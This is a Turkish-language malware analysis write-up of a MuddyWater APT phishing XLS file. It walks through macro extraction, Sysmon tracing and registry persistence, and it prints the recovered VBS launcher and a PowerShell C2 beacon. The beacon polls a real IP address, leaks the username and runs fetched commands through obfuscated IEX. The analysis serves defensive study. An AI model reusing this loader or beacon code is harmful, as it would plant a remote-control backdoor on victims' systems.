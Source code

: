 # 0xc3yc3y ile MuddyWater Analizi

Bugün MuddyWater örneği olan bir XLS dosyası analiz edeceğiz.


MuddyWater APT grubu Orta Doğu, Avrupa, Güney Asya, Afrika ve Amerika'da özel ve devlet kuruluşlarını hedef alan, İran İstihbarat ve Güvenlik Bakanlığı'na bağlı olarak değerledirilen siber casusluk grubudur.
Saldırılarının ilk aşaması genellikle oltalamadır. Kurbanlara gönderilen maillerde bulunan dosya ekleri veya yönlendirilen linklerden indirilen dosyalar ile buluşma başlatılmaktadır.


## Teknik Analiz

Zararlı dosya ExifTool ile incelendiğinde "Comments" bölümündeki PowerShell kodu dikkat çekiyor.

![ExifTool çıktısı](/Analizler/img/muddy1.png)

Dosya açıldığında aşağıdaki gibi görünmektedir.

![Dosya görüntüsü](/Analizler/img/muddy2.png)

İçeriğe izin vermeden statik analizimize devam ediyoruz.

XLS, DOC, PPT gibi dosyaları incelemek için "oledump.py" aracından faydalanarak ilgili dosyanın içerdiği makroları görüntüleyebiliriz.

![oledump.py çıktısı 1](/Analizler/img/muddy3.png)


Bu çıktıdaki 7. stream'in detayına baktığımızda ise obfuscate edilmiş makro kodunu görebiliriz.


![oledump.py çıktısı 2](/Analizler/img/muddy4.png)

Kodu analiz ettiğimizde "links.ps1" ve "Lald.vbs" isimli iki dosyanın oluşturulacağını ve kalıcılık sağlamak amacıyla Registry'de değişiklik yapılacağını tespit edebiliriz.

![İncelenen makro](/Analizler/img/muddy5.png)

Dinamik analiz aşamasına geçelim. XLS doyasının içeriğine izin verildiğinde sistem üzerinde yapılan değişiklikleri Sysmon aracılığıyla takip edebiliriz. Aşağıya Sysmon çıktılarının ekran görüntülerini ekliyorum.

![Dinamik analiz 1](/Analizler/img/muddy6.png)
![Dinamik analiz 2](/Analizler/img/muddy7.png)


![Dinamik analiz 3](/Analizler/img/muddy8.png)

"Lald.vbs" dosyasının içeriğine baktığımızda, bu dosyanın "links.ps1" dosyasını çalıştıracağını görebiliriz.

![Dinamik analiz 4](/Analizler/img/muddy9-Laldvbs.png)

```
Set oili = CreateObject ("WScript.Shell"):oili.run "powershell -exec bypass -file c:\users\" + CreateObject("WScript.Network").UserName + "\links\links.ps1" , 0, True
```

"links.ps1" dosyasının içeriğine baktığımızda ise "hxxp://185.118.167[.]120/" IP adresine 40 saniyede bir istek oluşturulacağını ve buradan alınan komutların çalıştırılacağını görebiliriz.

![Dinamik analiz 5](/Analizler/img/muddy10-linksps1.png)

```
for ($i=2; $i -gt 1; $i++) {
	try{
		$w=[System.Net.HttpWebRequest]::Create('http://185.118.167.120/');
		$w.proxy=[Net.WebRequest]::GetSystemWebProxy();
		$w.UserAgent = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.11.4472.124 Safari/537.36|'+ $env:username;
		$w.timeout=40000;$r='';
		$r=(New-Object System.IO.StreamReader($w.GetResponse().GetResponseStream())).ReadToEnd();
		&("{1}{2}{0}" -f 'X','I','E') $r;
		}
	catch{}
}
```

Kodun sonsuz bir döngü içerisinde olduğu ve "UserAgent" sonuna "$env:username" bilgisinin eklendiği de dikkatimizi çekmekte. (İletişim kurulan IP adresinin C2 adresi olabileceği ihtimalini arttıran olaylar ^^)

Registry'de yapılan değişikliği de RegEdit aracılığıyla görüntüleyebiliriz. 

![Dinamik analiz 6](/Analizler/img/muddy11.png)

Sisteme oluşturulan dosyaları çalıştıracak herhangi bir komut olmaması nedeniyle kullanıcı bilgisayarı yeniden başlatmadan C2 adresi ile iletişim başlamayacaktır. O halde sistemi yeniden başlatarak neler olacağına bakalım.

![Dinamik analiz 7](/Analizler/img/muddy12.png)

Yukarıdaki ekran görüntüsü, "links.ps1" dosyasının belirli aralıklarla C2 ile iletişim kurmaya çalıştığını göstermektedir. Ancak IP adresine erişilemediği için analizimiz burada sona eriyor.

MuddyWater örneklerinin analizi kolaydır ancak bu onu etkili bir APT grubu yapmaktan alıkoymuyor.

### Analiz sırasında kullanılan araçlar:

ExifTool : https://exiftool.org/

oledump.py: https://blog.didierstevens.com/programs/oledump-py/

Sysmon: https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon
